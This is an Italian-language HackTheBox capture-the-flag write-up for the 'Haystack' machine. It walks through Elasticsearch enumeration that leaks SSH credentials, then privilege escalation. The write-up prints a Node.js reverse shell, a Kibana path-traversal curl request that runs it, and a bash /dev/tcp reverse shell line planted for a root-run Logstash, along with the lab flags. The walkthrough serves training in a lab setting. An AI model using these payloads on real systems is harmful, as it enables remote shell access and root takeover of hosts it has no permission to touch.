 ```yaml
---
title: "Haystack - HackTheBox"
date: 2019-07-16T15:42:05+02:00
tags:
    - "CTF"
    - "HackTheBox"
draft: true
---
```


### Scan dei servizi
Facciamo uno scan con nmap:
![Nmap](/images/hackthebox/haystack/nmap.png)

### Web server
Vediamo cosa contiene la pagina web:
![Web](/images/hackthebox/haystack/web.png)

Il sorgente HTML non mostra nulla oltre all'immagine. Scarichiamola e vediamo se
contiene qualcosa con il comando strings:
![Strings](/images/hackthebox/haystack/strings.png)

Potrebbe essere base64, proviamo a decodificarlo:
![Base64](/images/hackthebox/haystack/base64.png)

La traduzione in italiano è:
```
L'ago nel pagliaio è "chiave"
```
Teniamo a mente questo messaggio.

### Secondo web server
Nello scan di nmap notiamo un secondo web server sulla porta 9200, vediamo cosa
contiene:
![Elasticsearch](/images/hackthebox/haystack/elasticsearch.png)

Elasticsearch è un motore di ricerca che si basa sulla libreria Lucene di
Apache. Utilizza il parametro nome `q` sulla pagina `_search` (il parametro
pretty serve ad avere il JSON formattato e indentato):
![Search](/images/hackthebox/haystack/search.png)

Provando con qualche valore di `q`, scopriamo che impostandolo ad `haystack`, ci
viene restituito questo messaggio:
![Haystack](/images/hackthebox/haystack/haystack.png)

Ricordandoci del messaggio di prima, capiamo che il "pagliaio" a cui si faceva
riferimento è proprio questo, ovverro l'insieme degli oggetti restituiti da
Elasticsearch. Proviamo ad impostare il parametro `q` con il valore `clave`:
![Clave](/images/hackthebox/haystack/clave.png)

Decodifichiamo le due stringhe:
![Base64](/images/hackthebox/haystack/base64-2.png)

Proviamo a usare i dati per connetterci tramite ssh:
![User](/images/hackthebox/haystack/user.png)

### User flag
```
04d18bc79dac1d4d48ee0a940c8eb929
```

### Privilege escalation

Scriviamo la shell in /tmp indicando il nostro indirizzo IP in `client.connect`:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(1337, "10.10.14.5", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Eseguiamo il file con il comando:
```
curl http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION\&apis=../../../../../../.../../../../tmp/shell.js
```

Utilizziamo i seguenti comandi per migliorare l'usabilità della shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
export LANG=en_US.UTF8
export TERM=xterm-256color
```

Vediamo le configurazioni di logstash:
![Logstash configuration](/images/hackthebox/haystack/logstash.conf.png)

```bash
################################################################################
# These settings are ONLY used by $LS_HOME/bin/system-install to create a custom
# startup script for Logstash and is not used by Logstash itself. It should
# automagically use the init system (systemd, upstart, sysv, etc.) that your
# Linux distribution uses.
#
# After changing anything here, you need to re-run $LS_HOME/bin/system-install
# as root to push the changes to the init script.
################################################################################

# Override Java location
#JAVACMD=/usr/bin/java

# Set a home directory
LS_HOME=/usr/share/logstash

# logstash settings directory, the path which contains logstash.yml
LS_SETTINGS_DIR=/etc/logstash

# Arguments to pass to logstash
LS_OPTS="--path.settings ${LS_SETTINGS_DIR}"

# Arguments to pass to java
LS_JAVA_OPTS=""

# pidfiles aren't used the same way for upstart and systemd; this is for sysv users.
LS_PIDFILE=/var/run/logstash.pid

# user and group id to be invoked as
#LS_USER=logstash
#LS_GROUP=logstash
LS_USER=root
LS_GROUP=root

# Enable GC logging by uncommenting the appropriate lines in the GC logging
# section in jvm.options
LS_GC_LOG_FILE=/var/log/logstash/gc.log

# Open file limit
LS_OPEN_FILES=16384

# Nice level
LS_NICE=19

# Change these to have the init script named and described differently
# This is useful when running multiple instances of Logstash on the same
# physical box or vm
SERVICE_NAME="logstash"
SERVICE_DESCRIPTION="logstash"

# If you need to run a command or script before launching Logstash, put it
# between the lines beginning with `read` and `EOM`, and uncomment those lines.
###
read -r -d '' PRESTART << EOM
EOM
```

Notiamo che logstash viene eseguito come utente `root`.

Scriviamo lo script in /opt/kibana
```
echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.2/1338 0>&1" >
/opt/kibana/logstash_revshell
```

Per triggerare l'esecuzione dello script dobbiamo accedere alla console di
kibana, che però è accessibile solo da localhost, in quanto nel file di
configurazione viene indicato `127.0.0.1` come indirizzo del server:
![Kibana configuration](/images/hackthebox/haystack/kibana-config.png)

Usiamo allora `ssh` per sfruttare il port forwarding a nostro vantaggio. Con il
comando:
```
ssh -L 8888:localhost:5601 security@10.10.10.115
```
impostiamo `ssh` in modo che inoltri il traffico dalla porta 8888 sulla nostra
macchina alla porta 5601 sulla macchina remota.
Mettiamo netcat in ascolto sulla porta che abbiamo indicato nel file in
`/opt/kibana` e visitiamo l'url `http://localhost:8888` per far eseguire lo
script.

Stampiamo la flag:
![Root flag](/images/hackthebox/haystack/root-flag.png)

### Root flag
```
3f5f727c38d9f70e1d2ad2ba11059d92
```
